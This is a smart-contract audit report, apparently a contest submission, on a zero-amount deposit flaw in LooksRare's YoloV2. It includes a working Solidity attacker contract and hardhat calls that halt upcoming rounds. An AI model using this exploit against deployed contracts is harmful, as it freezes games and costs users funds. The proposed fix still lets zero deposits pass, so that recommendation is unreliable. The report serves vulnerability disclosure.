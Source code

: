 Handsome Vermilion Hamster

high

# The `depositETHIntoMultipleRounds` function does not check all values in the `amounts` array, so it can be used in attacks to stop multiple rounds.

## Summary
Instead of checking all values in the `amounts` array parameter, `depositETHIntoMultipleRounds` only checks `msg.value` and the expected deposit amount.
`_depositETH` function doesn't also check if `depositAmount` is zero.
`fulfillRandomWords` function doesn't check if `currentEntryIndex` is zero.

## Vulnerability Detail

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L314-L316
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L347-L349
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1417-L1455
```solidity
function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
        uint256 numberOfRounds = amounts.length;
314:     if (msg.value == 0 || numberOfRounds == 0) {
              revert ZeroDeposits();
316:     }

        uint256 startingRoundId = roundsCount;
        Round storage startingRound = rounds[startingRoundId];
        _validateRoundIsOpen(startingRound);

        _setCutoffTimeIfNotSet(startingRound);

        uint256 expectedValue;
        uint256[] memory entriesCounts = new uint256[](numberOfRounds);

        for (uint256 i; i < numberOfRounds; ++i) {
            uint256 roundId = _unsafeAdd(startingRoundId, i);
            Round storage round = rounds[roundId];
            uint256 roundValuePerEntry = round.valuePerEntry;
            if (roundValuePerEntry == 0) {
                (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
            }

            _incrementUserDepositCount(roundId, round);

            uint256 depositAmount = amounts[i];
338:        if (depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;

            entriesCounts[i] = entriesCount;
        }

        if (expectedValue != msg.value) {
            revert InvalidValue();
        }
        ...
```

 `depositETHIntoMultipleRounds`  does not check all values in `amounts` array parameter, so an attack is possible using this vulnerability. 
As we can see above code snippet, L314 checks only if `msg.value` is not zero, and L338 checks if `depositAmount % roundValuePerEntry` is not zero.
That is, the attacker sets only one entry to the minimum value 'valuePerEntry' and sets the other entries to 0.

## Proof of Concept
Attacker can set `amounts` to [valuePerEntry, 0, 0, ..., 0] and call  `depositETHIntoMultipleRounds`  `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND - 1` times.
`MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND - 1` = 99
Attacker may set `amounts`'s length to arbitrary value by adding zero continuously. 

```sh
1st call: [valuePerEntry, 0, 0, ... 0]
2nd call: [valuePerEntry, 0, 0, ... 0]
...
99th call: [valuePerEntry, 0, 0, ... 0]
```
so attacker sets `msg.value` to `valuePerEntry * 99`.

deposit amounts per round would be like this.
```sh
round[roundsCount]: valuePerEntry * 99 // current round
round[roundsCount + 1]: 0
round[roundsCount + 2]: 0
...
round[roundsCount + m]: 0 // here m is zero's count - 1 in `amounts`
``` 

deposit counts per round for attacker would be like this.
```sh
round[roundsCount][attacker address] = 99
round[roundsCount + 1][attacker address] = 99
...
round[roundsCount + m][attacker address] = 99
```

Here is my attack contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {YoloV2} from "./YoloV2.sol";

contract Attacker {

    YoloV2 private yolo;
    constructor(YoloV2 yolo_) payable {
        yolo = yolo_;
    }

    function attack(bool _initialOrStop) public {
        uint256 ATTACK_ROUNDS = 10000;
        uint256 DEPOST_COUNTS = 99; // MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND - 1
        uint96 valuePerEntry = yolo.valuePerEntry();
        uint256[] memory amounts = new uint256[](ATTACK_ROUNDS);
        amounts[0] = valuePerEntry;
        for(uint256 i = 1; i < ATTACK_ROUNDS; ++i) {
            amounts[i] = 0;
        }

        if (_initialOrStop)
            for (uint256 i = 0; i < DEPOST_COUNTS; ++i) {
                yolo.depositETHIntoMultipleRounds{value: valuePerEntry}(amounts);
            }
        else
            yolo.depositETHIntoMultipleRounds{value: valuePerEntry}(amounts);
    }

}
```
After the deployment of `Attacker` contract, tested in hardhat like this.

```javascript
const { ethers, upgrades } = require('hardhat');
let [attacker1, attacker2] = await ethers.getSigners();
let attacker = await (await ethers.getContractFactory('Attacker')).deploy(YOLOV2_ADDRESS);

await attacker.connect(attacker1).attack(true, {value: ethers.utils.parseEther("2")});
```
Attacker can take additional action to stop the YOLOV2 like this. 
```javascript
await attacker.connect(attacker2).attack(false); 
```

## Impact
There are 2 impacts due to above attack.
One is that an user which participates in upcoming rounds  will be the `winner`, but can't earn. 
Only one user can participate in upcoming rounds, because `roundDepositCount` should not be bigger than `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND`.
If any user deposits in upcoming rounds, then he would be the winner.
Because deposit amount of attacker is zero, so he can't get any other deposit but should pay round fee, so he will lose by fee even though he is the winner.

Another is for attacker to stop upcoming rounds by calling `depositETHIntoMultipleRounds` once more.
When attacker calls `depositETHIntoMultipleRounds` function with ` [valuePerEntry, 0, 0, ... 0]` using another address, then all deposits for upcoming rounds will reach `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND`  with zero deposit amounts for all rounds.
So `_shouldDrawWinner` will be true, and run `_drawWinner`.
`VRF_COORDINATOR` will call `fulfillRandomWords` after randomness request,  and fail and be reverted because `currentEntryIndex` is zero, `randomWord % currentEntryIndex` is division by zero. 

```solidity
function fulfillRandomWords(uint256 requestId, uint256[] memory randomWords) internal override {
        if (randomnessRequests[requestId].exists) {
            uint256 roundId = randomnessRequests[requestId].roundId;
            Round storage round = rounds[roundId];

            if (round.status == RoundStatus.Drawing) {
                round.status = RoundStatus.Drawn;
                uint256 randomWord = randomWords[0];
                randomnessRequests[requestId].randomWord = randomWord;

                uint256 count = round.deposits.length;
                uint256[] memory currentEntryIndexArray = new uint256[](count);
                for (uint256 i; i < count; ++i) {
                    currentEntryIndexArray[i] = uint256(round.deposits[i].currentEntryIndex);
                }

1286:           uint256 currentEntryIndex = currentEntryIndexArray[_unsafeSubtract(count, 1)];
1287:           uint256 winningEntry = _unsafeAdd(randomWord % currentEntryIndex, 1);
                round.winner = round.deposits[currentEntryIndexArray.findUpperBound(winningEntry)].depositor;
                round.protocolFeeOwed = (round.valuePerEntry * currentEntryIndex * round.protocolFeeBp) / 10_000;

                emit RoundStatusUpdated(roundId, RoundStatus.Drawn);

1293:           _startRound({_roundsCount: roundId});
            }
        }
    }
```
In L1286` currentEntryIndex` will be zero, L1287 would fail and reverted by division error, so can't run `_startRound`  at L1293.
So the game will be stopped in that round.

## Code Snippet
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L314-L316
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L347-L349
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1417-L1455

## Tool used

Manual Review

## Recommendation

L338 should be modified to check the condition `depositAmount != 0`
```solidity
-    if (depositAmount % roundValuePerEntry != 0) {
+    if (depositAmount != 0 && depositAmount % roundValuePerEntry != 0) {
        revert InvalidValue();
    }
```
